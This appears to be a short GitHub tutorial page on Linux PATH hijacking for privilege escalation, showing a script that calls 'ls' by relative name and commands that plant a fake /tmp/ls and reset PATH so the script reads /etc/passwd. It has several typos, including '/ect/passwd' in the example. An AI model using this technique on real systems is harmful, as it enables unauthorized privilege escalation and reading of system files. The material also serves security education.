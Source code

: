 # Relative path to run binary

### Table of Contents

- [Command without arguments](#command-without-arguments)
- [Docu](#documentation)

## Command without arguments

**Attention** if you want escalate privileges, the vulnerable script needs at least to have suid permission.

#### Explanation

When a program refere to a binary command without giving the absolute path, you can execute your own program instead of the command.<br>
This program show below refer to this venurability:

```
#!/bin/bash

ls /ect/passwd
```

When bash interpret `ls`, he is trying to find the command located in the `env | grep PATH`.<br>
It try every directory, from letf to right, to check if the executable is located in. If it is, he execute it.
The tricks is to create a new file name "ls" write some code to execute at the emplacement /ect/passwd.

```
#write the command cat inside a ls file located in /tmp
echo cat > /tmp/ls
chmod +x /tmp/ls

#modifie the PATH, to get bash to find and execute your ls file instead of the real one.
PATH=/tmp
```

Now the previous script execute `cat /etc/passwd` instead of `ls /etc/passwd`.

### Documentation

- [SUID redhat](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)<br>

---

[**:arrow_right_hook:Back home**](../README.md)
